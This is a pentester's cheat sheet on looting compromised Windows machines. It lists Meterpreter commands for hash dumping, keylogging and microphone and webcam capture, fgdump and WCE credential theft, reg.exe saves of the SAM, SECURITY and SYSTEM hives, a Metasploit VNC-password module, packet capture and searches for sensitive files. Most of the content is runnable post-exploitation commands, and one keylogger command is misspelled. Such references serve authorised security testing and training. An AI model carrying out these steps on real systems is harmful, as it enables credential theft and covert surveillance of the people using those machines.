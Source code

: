 # Loot Windows

## Meterpreter

If you have a meterpreter shell you are able to do a lot of thing with very little effort. If you do not have a meterpreter-shell you can always create a exploit with msfvenom. An elf or exe or other format to upgrade your shell.

Show help of all commands:

```text
-h
```

**Dump windows hashes for further analysis**

```text
hashdump
```

Keylogger

```text
keysscan_start
keyscan_dump
keyscan_stop
```

**Mic and webcam commands**

```text
record_mic     Record audio from the default microphone for X seconds
webcam_chat    Start a video chat
webcam_list    List webcams
webcam_snap    Take a snapshot from the specified webcam
webcam_stream  Play a video stream from the specified webcam
```

## Dumping passwords and hashes on windows

This most likely requires administrative rights, that's why the chapter is found here and not in priv-esc. Once you have a hash you can move on to the Password Cracking-chapter where we discuss different techniques of cracking hashes.

Windows stores passwords in SAM - Security Account Manager. Passwords are stored differently depending on the operating system. Up until \(and including\) Windows 2003 stored the passwords in LAN Manager \(LM\) and NT LAN Manager \(NTLM\). LM is incredibly insecure. From windows vista and on the system does not use LM, only NTLM. So it is a bit more secure.

**LM and NTLM &gt;= Windows 2003**

**NTLM &gt; Windows vista**

### LM Hashes

LM hashes can be really easy to crack. The LM part in the example below is the first part.

```text
Administrator:500:FA21A6D3CF(01B8BAAD3B435B51404EE:C294D192B82B6AA35C3DFCA81F1F59BC:::
```

Example of NT

```text
Administrator:500:NO PASSWORD*********************:BE134K40129560B46534340292AF4E72:::
```

### fgdump.exe

We can use `fgdump.exe` \(`locate fgdump.exe` on kali\) to extract NTLM and LM Password hashes. Run it and there is a file called 127.0.0.1.pwndump where the hash is saved. Now you can try to brute force it.

### Windows Credencial Editor \(WCE\)

WCE can steal NTLM passwords from memory in cleartext! There are different versions of WCE, one for 32 bit systems and one for 64 bit. So make sure you have the right one.

You can run it like this

```text
wce32.exe -w
```

### Loot registry without tools

This might be a better technique than using tools like wce and fgdump, since you don't have to upload any binaries. Get the registry:

```text
C:\> reg.exe save hklm\sam c:\windows\temp\sam.save
C:\> reg.exe save hklm\security c:\windows\temp\security.save
C:\> reg.exe save hklm\system c:\windows\temp\system.save
```

The hashes can be extracted using `secretdump.py` or `pwdump`

### Pwdump 7

[http://www.tarasco.org/security/pwdump\_7/](http://www.tarasco.org/security/pwdump_7/)

## VNC

VNC require a specific password to log in to. So it is not the same password as the user password. If you have a meterpreter shell you can run the post exploit module to get the VNC password.

```text
background
use post/windows/gather/credentials/vnc
set session X
exploit
```

## Tcp-dump on winfows

You can use meterpreter to easily take a tcp-dump, like this:

```text
# Meterpreter
run packetrecorder -li
run packetrecorder -i 1
```

### Search for interesting files

```text
#Meterpreter
search -f *.txt
search -f *.zip
search -f *.doc
search -f *.xls
search -f config*
search -f *.rar
search -f *.docx
search -f *.sql

# Recursive search
dir /s
```

## References

This is a great post [https://www.securusglobal.com/community/2013/12/20/dumping-windows-credentials/](https://www.securusglobal.com/community/2013/12/20/dumping-windows-credentials/)

